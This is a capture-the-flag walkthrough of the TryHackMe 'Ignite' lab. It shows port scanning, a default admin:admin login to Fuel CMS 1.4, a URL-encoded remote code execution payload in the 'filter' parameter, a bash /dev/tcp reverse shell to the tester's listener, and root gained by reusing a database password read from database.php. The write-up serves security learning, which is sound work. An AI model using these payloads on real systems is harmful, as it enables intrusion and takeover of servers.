



# TryHackMe Ignite

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Ignite](https://tryhackme.com/room/ignite)|
|---|---|
|**Created by**|[DarkStar7471](https://tryhackme.com/p/DarkStar7471)|
|**Date release**|864 days old (9/4/2021)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.105.151
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.105.151 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 22:50 +07
Nmap scan report for 10.10.105.151
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.48 seconds
```

### Fuel CMS 1.4

The home page at port 80 is Fuel CMS version 1.4



At `robots.txt`, I saw an uri `/fuel/`

```
┌──(Hades㉿10.11.32.198)-[2.3:22.2]~/walkthrough/tryhackme/ignite
└─$ curl http://10.10.105.151/robots.txt
User-agent: *
Disallow: /fuel/
```

Go to this page, I saw an login page.



Try to login with common credential `admin:admin`, I got admin page.



Search public exploit for Fuel CMS 1.4, there are 2 RCE exploit at `searchsploit`.

```
┌──(Hades㉿10.11.32.198)-[2.2:21.6]~/walkthrough/tryhackme/ignite
└─$ searchsploit Fuel CMS 1.4
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                   | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                   | php/webapps/49487.rb
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)         | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authentica | php/webapps/48778.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Inject Code Execution

Follow exploit `linux/webapps/47138.py`, I know that the exploit call system and run injected command in the system.

`http://10.10.105.151/fuel/pages/select/?filter=%27%2bpi(print(%24a%3d%27system%27))%2b%24a(%27id%27)%2b%27` 

Try to sent `id` command using `curl` and I confirm this payload was executed.

```
┌──(Hades㉿10.11.32.198)-[2.6:23.8]~/walkthrough/tryhackme/ignite
└─$ curl --silent 'http://10.10.105.151/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27id%27%29%2b%27' | grep www-data     
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
</div>systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
<snip>
```

Using the same method to execute reverse shell to kali machine

```
┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ hURL -U 'bash -c "sh -i >& /dev/tcp/10.11.32.198/443 0>&1"'

Original    :: bash -c "sh -i >& /dev/tcp/10.11.32.198/443 0>&1"
URL ENcoded :: bash%20-c%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.32.198%2F443%200%3E%261%22

┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ cmd=bash%20-c%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.32.198%2F443%200%3E%261%22

┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ curl "http://10.10.105.151/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27$cmd%27%29%2b%27"
```

At the listener, I got reverse shell

```
┌──(Hades㉿10.11.32.198)-[2.7:23.9]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.105.151] 32810
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Mysql Password to Root

After enum local machine, I found file `database.php` contain database password.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<snip>
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
```

I enum database with knowed credential, but there are no value infomation in there. But when I try to login to root with same mysql's password: `mememe`, I got root access.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ su  
Password: 
root@ubuntu:/var/www/html/fuel/application/config# id
uid=0(root) gid=0(root) groups=0(root)
```